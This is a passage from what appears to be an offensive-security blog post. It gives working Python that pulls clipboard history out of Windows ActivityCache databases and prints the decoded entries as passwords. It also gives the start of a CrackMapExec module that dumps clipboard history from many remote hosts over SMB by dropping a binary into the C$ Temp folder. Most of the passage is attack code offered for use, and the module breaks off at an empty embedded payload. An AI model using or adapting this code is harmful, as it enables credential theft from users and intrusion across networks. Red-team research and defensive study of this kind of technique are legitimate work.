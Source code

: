 ```python
        for profile_folder_name in profile_folder_names:
            with sqlite3.connect(profile_folder_name) as conn:
                conn.row_factory = sqlite3.Row
                c = conn.cursor()
                c.execute("SELECT ClipboardPayload FROM ActivityOperation WHERE ClipboardPayload IS NOT NULL")
                results = c.fetchall()
                for row in results:
                    data = json.loads(row[0])
                    if data[0]["formatName"] == "Text":
                        try:
                            decoded_data = base64.b64decode(data[0]["content"]).decode('utf-8')
                        except Exception as e:
                            print(f"{user}: Error decoding base64 data. {e}")
                            continue
                        print(f'{user}: Password from ClipboardPayload: {decoded_data}')


if __name__ == "__main__":
    get_clipboard_data()
```

So I will just add two more ways (TextinputHost Scrapping, Current Clipboard Data) in this script soon, because I have burn out :joy: So I just want to play Fortnite and fifa23 the whole day :joy:

# CrackMapExec Module
Imagen how many credentials we can get if used made a module for crackmapexec to dump the clipboard data. 
So, here is the full module, soon I will just pull it into the Crackmapexec Github.

[Blogposts-Tools/Clipboard History Sinper at main · xRET2pwn/Blogposts-Tools · GitHub](https://github.com/xRET2pwn/Blogposts-Tools/tree/main/Clipboard%20History%20Sinper)

```python
# ClipboardHistory module for CME 
# Author of the module : https://twitter.com/RET2_pwn
# ClipboardHistory, take one argument Clip_EXE which the binary path. for more information, https://github.com/xRET2pwn/Blogposts-Tools/tree/main/Clipboard%20History%20Sinper

from base64 import b64decode
from sys import exit
from os import path

class CMEModule:

    name = "clipboard"
    description = "Dump the clipboard history content."
    supported_protocols = ["smb"]
    opsec_safe = True # could be flagged
    multiple_hosts = True

    def options(self, context, module_options):

        '''
        Clip_EXE    // ClipboardHistory Binary Path.
        '''

        self.tmp_dir = "C:\\Windows\\Temp\\"
        self.share = "C$"
        self.tmp_share = self.tmp_dir.split(":")[1]
        self.clipboardhistory = "ClipboardHistory.exe"
        self.useembeded = True
        self.ClipboardHistory_embedded = b64decode('')
```